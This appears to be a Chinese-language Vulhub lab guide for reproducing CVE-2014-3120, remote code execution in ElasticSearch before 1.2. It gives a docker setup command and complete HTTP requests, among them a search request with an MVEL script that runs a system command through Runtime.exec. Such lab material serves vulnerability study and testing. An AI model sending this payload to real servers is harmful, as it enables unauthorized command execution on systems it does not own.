

ElasticSearch 远程代码执行漏洞（CVE-2014-3120）¶
ElasticSearch 是一个分布式的RESTful搜索和分析引擎。
ElasticSearch 1.2版本之前默认启用了动态脚本功能，攻击者可以通过_search请求的source参数执行任意MVEL表达式和Java代码。MVEL是一种基于Java的动态脚本语言，下面是一个使用MVEL执行系统命令的示例代码：
import java.io.*;
new java.util.Scanner(Runtime.getRuntime().exec("id").getInputStream()).useDelimiter("\\A").next();
参考链接：
漏洞环境¶
执行以下命令启动一个1.1.1版本的ElasticSearch服务器：
docker compose up -d
环境启动后，可以通过http://your-ip:9200访问ElasticSearch API。
漏洞复现¶
此漏洞利用需要索引中至少存在一个文档。首先，创建一个文档：
POST /website/blog/ HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
{
"name": "vulhub"
}
然后，发送包含恶意MVEL脚本的请求来执行任意命令：
POST /_search?pretty HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 343
{
"size": 1,
"query": {
"filtered": {
"query": {
"match_all": {
}
}
}
},
"script_fields": {
"command": {
"script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"
}
}
}
命令执行结果将在响应中返回：
